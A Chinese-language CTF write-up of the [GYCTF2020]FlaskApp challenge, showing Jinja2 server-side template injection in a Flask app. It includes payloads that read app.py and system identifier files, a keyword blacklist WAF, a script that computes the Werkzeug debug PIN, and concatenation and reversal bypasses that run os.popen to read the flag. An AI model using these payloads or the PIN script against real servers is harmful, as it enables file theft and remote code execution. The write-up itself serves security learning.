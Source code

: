 # Flask+SSTI的新火花

记一次buu刷题记和回顾祥云杯被虐出屎的经历。题目：**[GYCTF2020]FlaskApp**

## 一 题目初见

朴实无华的页面，一个base64的小程序页面

![image-20201124235652622](https://img.dem0dem0.top/images/image-20201124235652622.png)

看到有提示。

![image-20201124235709905](https://img.dem0dem0.top/images/image-20201124235709905.png)

我就想到了可能是flask的失败报错界面和pin码的获取（来源祥云杯的虐后感）

## 二 开始解题

![image-20201124235832987](https://img.dem0dem0.top/images/image-20201124235832987.png)

看到这里就不用多解释了，输入一个非法的字符串会自动跳转到这里，我们接着思路，可以在这里查看源码。

![image-20201124235919632](https://img.dem0dem0.top/images/image-20201124235919632.png)

可以看到是将解密之后的字符串**直接输出**到页面上，不用说SSTI安排上。

![image-20201125000013089](https://img.dem0dem0.top/images/image-20201125000013089.png)

![image-20201125000045001](https://img.dem0dem0.top/images/image-20201125000045001.png)

触发了waf。大概流程就是，在加密页面将注入的内容变成base64，再解密的解密进行解密。**至于waf嘛**，没有源代码，只能一个一个的尝试。注意python是3.8.7的版本。

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}
```

这里借用答案的一个payload，直接进行读取文件。看到waf函数

```
def waf(str):
    black_list = [&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;,
                  &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;*&#34;,&#34;?&#34;]
    for x in black_list :
        if x in str.lower() :
            return 1

```

一看凉了，没有命令执行了。当然不可能不可以命令执行的，python可是最骚的语言。

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}
```

只有进行文件读取，但是flag这个文件不知道文件名字，就只能采取获取pin码在这里进行任意python代码执行。

### 要生成pin码，我们需要以下几个信息

```
(1)flask所登录的用户名。可以通过读取/etc/password知道 用户为flaskweb
(2) modname 一般不变就是flask.app
(3)getattr(app, “name”, app.class.name)。python该值一般为Flask ，值一般不变
(4）flask库下app.py的绝对路径。在报错信息中可以获取此值为： /usr/local/lib/python3.7/site-packages/flask/app.py
(5)当前网络的mac地址的十进制数。通过文件/sys/class/net/eth0/address读取。
(6)docker机器id对于非docker机每一个机器都会有自已唯一的id，linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_i，有的系统没有这两个文件。对于docker机则读取/proc/self/cgroup，其中第一行的/docker/字符串后面的内容作为机器的id，
```

payload就自己构造吧，放上收藏已久的秘密小脚本跑就行了。

```
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485410388611',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '310e09efcc43ceb10e426a0ffc99add5c651575fe93627e6019400d4520272ed'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

```

题目完结。

## 三 非预期解

首先我们可以看到这个waf实在是太废物了，等于没有。字符串拼接的方法，字符串倒置的方法都可以对他进行绕过，辣鸡。

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}

```

```
{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %}   {% for b in c.__init__.__globals__.values() %}   {% if b.__class__ == {}.__class__ %}     {% if 'eva'+'l' in b.keys() %}       {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("cat /this_is_the_fl'+'ag.txt").read()') }}     {% endif %}   {% endif %}   {% endfor %} {% endif %} {% endfor %}

```

